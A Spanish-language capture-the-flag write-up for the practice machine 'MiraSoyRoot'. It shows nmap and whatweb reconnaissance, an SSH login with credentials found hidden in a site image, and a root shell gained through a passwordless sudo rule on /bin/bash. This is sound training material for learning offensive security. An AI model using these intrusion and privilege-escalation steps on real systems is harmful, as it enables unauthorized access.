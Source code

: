 ```yaml
---
layout: post
title: Mirasoyroot
subtitle: Plataforma MiraSoyRoot Dificultad Muy Fácil
cover-img: /assets/img/mirasoyroot.png
thumbnail-img: /assets/img/mirasoyroot.png
share-img: /assets/img/mirasoyroot.png
author: Elmili72
---
```


<img width="227" height="222" alt="image" src="https://github.com/user-attachments/assets/ce9c451f-14bf-4521-8d9b-f0c115414357" />

## Escaneo general de puertos

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 17:41:06 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

```bash
❯ nmap -sCV -p22,80 172.17.0.2 -oN target
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:fe:8d:4e:47:c9:95:40:bb:10:89:be:b8:a1:ef:03 (ECDSA)
|_  256 80:1c:dd:6a:c7:b5:8f:93:70:a7:32:83:e3:1e:7e:4c (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: TIME LUXURY WATCHES
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento de Servicio Web

```bash
❯ whatweb http://172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Title[TIME LUXURY WATCHES]
```

![[Pasted image 20250623174409.png]]

![[Pasted image 20250623174419.png]]

Aquí cualquiera puede pensar, pues bueno intentamos enumerar directorios con LFI para intentar exfiltrar el archivo */etc/passwd*. Pues nuestro amigo y venico Yerman nos tiene una sorpresa jejejej.

![[Pasted image 20250623175407.png]]

No diré en que imagen se encuentras las credenciales jijiji.

## Explotación

### Intrusión

```bash
❯ ssh pablo@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:KN2v7mhMbB2KMFDXfIyBZ3RSeXTGDTEQXnLuzqc2OhU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
pablo@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.12.25-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Feb 20 12:13:26 2025 from 172.17.0.1
pablo@5f93963c4c51:~$ whoami
pablo
pablo@5f93963c4c51:~$ id
uid=1001(pablo) gid=1001(pablo) groups=1001(pablo)
```

## Post-Explotación

### Escalada de Privilegios

```bash
pablo@5f93963c4c51:~$ sudo -l
Matching Defaults entries for pablo on 5f93963c4c51:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pablo may run the following commands on 5f93963c4c51:
    (ALL) NOPASSWD: /bin/bash
```

```bash
pablo@5f93963c4c51:~$ sudo /bin/bash -p
root@5f93963c4c51:/home/pablo# whoami
root
root@5f93963c4c51:/home/pablo# id
uid=0(root) gid=0(root) groups=0(root)
root@5f93963c4c51:/home/pablo# cd /root
root@5f93963c4c51:~# cat mirasoyroot.txt 
Felicidades!!! Lo has conseguido.
Si eres de los tres pirmeros en 
completar la maquina enviame una 
captura de esto y te pondre en el
podio de la web.
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!

